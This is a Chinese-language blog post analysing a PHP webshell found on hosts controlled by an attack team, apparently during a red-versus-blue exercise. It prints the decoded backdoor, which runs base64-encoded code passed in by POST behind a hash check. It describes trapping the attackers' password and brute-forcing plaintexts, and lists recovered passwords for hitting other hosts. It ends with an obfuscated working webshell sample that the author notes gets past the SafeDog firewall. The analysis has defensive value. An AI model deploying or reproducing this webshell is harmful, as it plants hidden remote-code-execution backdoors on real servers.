 ```yaml
---
layout: post
author: Vulkey_Chen
title: "对某攻击队的Webshell进行分析"
date: 2019-08-21
music-id: 
permalink: /archives/2019-08-21/1
description: "对某攻击队的Webshell进行分析"
---
```


对我⽅已拿下的攻击方⾁鸡进⾏⽇志、⽂件等分析，发现⼤部分肉鸡的网站根目录都存在 images.php，提取该文件的内容并分析：

![img](/images/2019-08-21/image020.png)

提出较为重要的那一段base64decode后的PHP代码进行分析：

```php
@session_start();//开启session

if(isset($_POST['code']))substr(sha1(md5($_POST['a'])),36)=='222f'&&$_SESSION['theCode']=$_POST['code'];if(isset($_SESSION['theCode']))@eval(base64_decode($_SESSION['theCode']));
```

**代码逻辑**：判断POST请求参数code是否有值，当满足条件时则执行`substr(sha1(md5($_POST['a'])),36)=='222f'&&$_SESSION['theCode']=$_POST['code']`，这段代码的意思为将POST请求参数a的值进行md5加密再进行sha1加密，最后从加密后的字符串的第36位开始取值（sha1加密后的值为40位，这里也就是取后4位），当后四位等于`222f`的时候条件为真则执行`$_SESSION['theCode']=$_POST['code']`（Why？**&&是逻辑与操作，如果&&的前面为false了，后面的就不会执行了，所以在这里也就间接的形成了一种判断从而必须满足后四位等于222f的条件**），最后进入该代码执行：`if(isset($_SESSION['theCode']))@eval(base64_decode($_SESSION['theCode']));`，代码如此简单就不再重复描述～

为了满足条件（`substr(sha1(md5($_POST['a'])),36)=='222f'`），我们可以采用钓鱼的方式等攻击方人员主动上钩（修改`images.php`即可）：

![img](/images/2019-08-21/image021.png)

当攻击方人员主动连接该Webshell时会将POST请求参数a的值写入到`pass.txt`中。

但此方法较为被动，我们还可以在本地搭建一个环境搭配Burp去爆破获取后四位为`222f`的明文：

![img](/images/2019-08-21/image022.png)

![img](/images/2019-08-21/image023.png)

获得了：`abc123000`、`lipeng520`、`160376`这三个密码，可利用密码对其他的肉鸡再次进行反打。

**代码样本**：（测试可过安全狗）

```php
<?php

$CF='c'.'r'.'e'.'a'.'t'.'e'.'_'.'f'.'u'.'n'.'c'.'t'.'i'.'o'.'n';

$EB=@$CF('$x','e'.'v'.'a'.'l'.'(b'.'a'.'s'.'e'.'6'.'4'.'_'.'d'.'e'.'c'.'o'.'d'.'e($x));');

$EB('QHNlc3Npb25fc3RhcnQoKTtpZihpc3NldCgkX1BPU1RbJ2NvZGUnXSkpc3Vic3RyKHNoYTEobWQ1KCRfUE9TVFsnYSddKSksMzYpPT0nMjIyZicmJiRfU0VTU0lPTlsndGhlQ29kZSddPSRfUE9TVFsnY29kZSddO2lmKGlzc2V0KCRfU0VTU0lPTlsndGhlQ29kZSddKSlAZXZhbChiYXNlNjRfZGVjb2RlKCRfU0VTU0lPTlsndGhlQ29kZSddKSk7');

?>
```
